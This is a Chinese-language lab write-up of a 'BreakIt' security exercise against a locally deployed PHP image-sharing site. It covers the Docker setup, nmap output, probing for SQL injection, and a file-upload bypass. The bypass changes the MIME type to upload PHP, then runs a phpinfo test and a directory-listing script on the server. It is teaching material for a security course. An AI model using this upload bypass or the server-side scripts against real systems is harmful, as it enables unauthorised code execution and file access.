





# BreakIt过程详解

## 实验环境

* VMware16pro
* linux kali22.1
* docker

## 工具使用

* burpsuite v2022.7.1

## 环境搭建

```bash
# 使用docker快速部署
$ git clone https://github.com/Vir-Dominary/2022-Cybersecurity-Practices.git
$ cd 2022-Cybersecurity-Practices

# 切换到相应分支（后续合并到主目录时还需更改）
$ git checkout docker-byzfd 

# 注意普通用户没有运行docker容器的权限，把普通用户加入到docker组中
$ sudo gpasswd -a $USER docker 
$ newgrp docker

$ docker-compose up -d
```



搭建完毕以后访问 ``127.0.0.1``应用环境，如下图所示：



## 信息收集

### 端口扫描

```bash
# Intense scan
$ nmap -T4 -A -v 127.0.0.1

Discovered open port 80/tcp on 127.0.0.1
Discovered open port 3306/tcp on 127.0.0.1
Discovered open port 443/tcp on 127.0.0.1
Discovered open port 9000/tcp on 127.0.0.1

PORT     STATE SERVICE     VERSION
80/tcp   open  http        nginx 1.19.2
|_http-title: \xE5\x8D\xB3\xE5\x88\xBB\xE4\xBC\xA0\xE5\x9B\xBE
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.19.2

443/tcp  open  tcpwrapped

3306/tcp open  mysql       MySQL 5.7.39
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.39
|   Thread ID: 23
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, IgnoreSpaceBeforeParenthesis, LongColumnFlag, InteractiveClient, SupportsLoadDataLocal, SwitchToSSLAfterHandshake, SupportsTransactions, Speaks41ProtocolNew, IgnoreSigpipes, ConnectWithDatabase, SupportsCompression, LongPassword, ODBCClient, DontAllowDatabaseTableColumn, FoundRows, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: s>\x0F\x0Ek&?OkmUU#9XrY{Ws
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.39_Auto_Generated_Server_Certificate
| Issuer: commonName=MySQL_Server_5.7.39_Auto_Generated_CA_Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-04T13:16:15
| Not valid after:  2032-08-01T13:16:15
| MD5:   a793 adda 1076 1749 7faf 0c69 6439 26eb
|_SHA-1: 72ae 19b0 fc2a 9e6d a7c2 e680 dbeb a4df d0cd bfe8
9000/tcp open  cslistener?

Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Uptime guess: 38.279 days (since Mon Jun 27 18:35:01 2022)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

```

扫描得到4个开放端口的信息：80(http nginx 1.19.2),443(https),3306(mysql 5.7.39),9000(cslistener)，以及主机操作系统(linux_kernel:2.6.32)等信息。

### 使用体验


注册需要提交密保问题和答案，便于在忘记密码时重置密码（如下图）：


注册成功后会跳转到登录页面，登陆以后会跳转到网站首页。

首页既是用户的主页，提供登出和修改密码的功能；同时也是网站的主页，展示不同用户分享的图片。如下图所示：


## 可能的漏洞分析

### 强制访问控制

网站主页的路径为/php/home.php，大胆猜想php的文件都放在php这个文件夹内。尝试在未登录条件下访问主页，会强制弹回登陆页面。

用户上传的图片链接形如 ``http://127.0.0.1:8088/image/diemandcarpe/1.jpg``，直接说明用户上传的图片都在服务器的 ``image``文件夹下名为用户id的子目录下，在未登录条件下可以直接访问到这一图片，由于本就是公开图片，所以不存在安全问题。尝试访问 ``image``下的用户目录以查看不公开图片，发现是不行的。

### SQL注入

尝试加入 ``'`` ，``AND``，``OR``等sql标识符，提交以后网站返回的信息均是用户名或密码错误。猜测后端对这些字符进行了转义。

### 文件上传漏洞

尝试上传一个php文件，得到的结果如下图所示：



很显然这是一个后端发出的消息，且前端看起来并没有限制文件类型。

不确定是否启用了后台白名单，如果是的话，这个漏洞也是无法利用的了。

burpsuite抓包，部分字段值如下：

```js
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

<?php
phpinfo()
?>
```

只能先把MIME修改：

```js
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo()
?>
```

发送以后发现竟然提交成功了。

直接在主页找到这一文件的路径：``http://127.0.0.1:8088/image/diemandcarpe/1.php``

php代码执行成功：



接下来对漏洞利用具体化，通过上传一个遍历文件夹内文件的可执行文件，获取各用户所上传图片的文件名，从而实现强制访问控制。

编写的可执行程序如下：

```php
<?php
function tree($directory)

{

    $mydir=dir($directory);

    while($file=$mydir->read()){

        if((is_dir("$directory/$file")) AND ($file!=".") AND ($file!=".."))

        {

            echo "$file\n";

            tree("$directory/$file");

    } else

    echo "$file\n";

    }

    echo "\n";

    $mydir->close();

}

tree("../");
?>
```

以同样方式上传以后，访问得到：



至此漏洞利用完成。

# 自动化漏洞利用脚本EXP

详见[exp.py](./exp.py)

其所依赖的环境详见[requirements.txt](./requirements.txt)
